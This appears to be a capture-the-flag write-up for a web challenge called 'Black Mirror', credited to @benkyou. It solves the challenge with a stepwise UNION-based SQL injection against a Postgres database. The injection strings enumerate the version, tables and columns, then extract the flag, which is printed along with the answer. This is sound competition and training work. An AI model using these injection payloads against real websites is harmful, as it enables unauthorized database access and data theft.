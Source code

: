 # Black Mirror

Solved by: @benkyou

### Question:
I'm a big fan of black mirror.

Note: Make sure to check the comments of homepage!

https://blackmirror-chall.fmc.tf

### Solution:
- View source from [https://blackmirror-chall.fmc.tf/?view-source](https://blackmirror-chall.fmc.tf/?view-source "https://blackmirror-chall.fmc.tf/?view-source")
- database is postgres `") union select null,null,version(),null -`
- table is FLAG_a2a123a31c1193359f2c96a9 `") union select null,null,table_name,null from information_schema.tables -`
- column is flag `") union select null,null,column_name,null from information_schema.columns where table_name='FLAG_a2a123a31c1193359f2c96a9' -`
- Get flag `") union select null,null,flag,null from FLAG_a2a123a31c1193359f2c96a9 -`

**Flag:** `FMCTF{674fc2c4d20858e922d14fff640a65f2}`


